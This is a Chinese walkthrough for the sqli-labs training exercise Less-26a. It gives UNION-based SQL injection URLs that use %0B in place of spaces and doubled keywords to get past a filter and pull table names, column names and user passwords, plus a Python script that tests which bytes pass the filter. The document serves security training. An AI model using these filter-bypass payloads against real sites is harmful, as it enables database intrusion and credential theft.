








# Less - 26a

---

# 通关教程

---

## 1、判断闭合

---

```bash
?id=1''
```

​​

---

```bash
?id=1')
```

​​

```bash
?id=1') || ('1
```

​​

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/?id=0')%0Bunion%0Bselect%0B1,database(),3%0B||('1')=('1
```

​​​​

---

## 3、查看数据表

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(table_name),3%0bfrom%0binfoorrmation_schema.tables%0bwhere%0btable_schema='security'%26%261=('1
```

​​

---

## 4、查看字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(column_name),3%0bfrom%0binfoorrmation_schema.columns%0bwhere%0btable_schema='security'%0baandnd%0btable_name='users'%26%261=('1
```

​​

---

## 5、查看字段值

---

```bash
http://192.168.225.132/sqli-labs/Less-26a/? id=0')%0bunion%0bselect%0b1,group_concat(passwoorrd,0x7e,username),3%0bfrom%0busers%0bwhere%0b1=('1
```

​​

---

## 6、使用脚本判断哪些字符能用

---

```python
# -*- encoding: utf-8 -*-
import requests

for i in range(0, 256):
    # print(i)
    code = hex(i).replace('0x', '')
    if len(code) < 2:
        code = "0" + code
    code_0x = "%" + code
    # print(code_0x)
    url = "http://192.168.225.132/sqli-labs/Less-26/?id=1'" + code_0x + "%26%26" + code_0x + "'1'='1"
    r = requests.get(url=url)
    if "Dumb" in r.content.decode("utf-8", "ignore"):
        print(code_0x)
```

​​

‍
